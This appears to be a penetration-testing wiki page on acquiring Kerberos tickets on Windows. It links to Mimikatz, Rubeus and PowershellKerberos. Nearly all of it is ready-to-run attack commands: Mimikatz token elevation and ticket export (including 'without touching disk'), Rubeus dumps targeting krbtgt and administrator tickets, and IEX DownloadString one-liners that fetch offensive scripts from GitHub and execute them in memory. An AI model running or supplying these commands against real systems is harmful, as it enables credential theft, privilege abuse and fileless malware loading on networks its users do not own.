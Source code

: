# Ticket Aquisition

## Requirements

**Unprivileged**

Can extract Kerberos tickets for the current user context

**Privileged (Elevated)**

Can extract all Kerberos tickets on the given system

## Tools

*   Mimikatz

    * Binary: [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
    * PowerShell: [https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1)


*   Rubeus:

    * Binary: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
    * PowerShell: [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Rubeus.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Rubeus.ps1)


* PowerShellKerberos:
  * PowerShell: [https://github.com/MzHmO/PowershellKerberos/blob/main/dumper.ps1](https://github.com/MzHmO/PowershellKerberos/blob/main/dumper.ps1)

## Tool Usage

### Mimikatz

{% tabs %}
{% tab title="Binary" %}
```powershell
# Export to file methods

# Export tickets (Preferred Method (More Accurate))
Mimikatz.exe "token::elevate" "sekurlsa::tickets /export"

# Alternative Method
Mimikatz.exe "token::elevate" "kerberos::list /export"
```

{% code overflow="wrap" %}
```powershell
# Export to Base64 without touching disk
Mimikatz.exe "token::elevate" "standard::base64 /out:true" "sekurlsa::tickets /export"
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
# Load into memory
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/test/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
{% endcode %}

```powershell
# Export to file methods

# Export tickets (Preferred Method (More Accurate))
Invoke-Mimikatz -Command '"token::elevate "sekurlsa::tickets /export"'

# Alternative Method
Invoke-Mimikatz -Command '""token::elevate" "kerberos::list /export"'
```

{% code overflow="wrap" %}
```powershell
# Export to Base64 without touching disk
Invoke-Mimikatz -Command '"token::elevate" "standard::base64 /out:true" "sekurlsa::tickets /export"'
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Rubeus

{% tabs %}
{% tab title="Binary" %}
```powershell
# Dump All
.\Rubeus.exe dump /nowrap

# Dump Specified tickets that match a service
.\Rubeus.exe dump /service:krbtgt /nowrap
.\Rubeus.exe dump /service:HTTP /nowrap

# Dump tickets for specified users
.\Rubeus.exe dump /user:administrator /nowrap

# Both
.\Rubeus.exe dump /service:krbtgt /user:administrator /nowrap
```
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
# Load into memory
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
```
{% endcode %}

```powershell
# Dump All
Invoke-Rubeus -Command "dump /nowrap"

# Dump Specified tickets that match a service
Invoke-Rubeus -Command "dump /service:krbtgt /nowrap"
Invoke-Rubeus -Command "dump /service:HTTP /nowrap"

# Dump tickets for specified users
Invoke-Rubeus -Command "dump /user:administrator /nowrap"

# Both
Invoke-Rubeus -Command "dump /service:krbtgt /user:administrator /nowrap"
```
{% endtab %}
{% endtabs %}

### PowerShellKerberos

{% tabs %}
{% tab title="PowerShell" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Load into memory and dump
<strong>IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/MzHmO/PowershellKerberos/main/dumper.ps1')
</strong></code></pre>
{% endtab %}
{% endtabs %}



## Ticket Injection

WIP
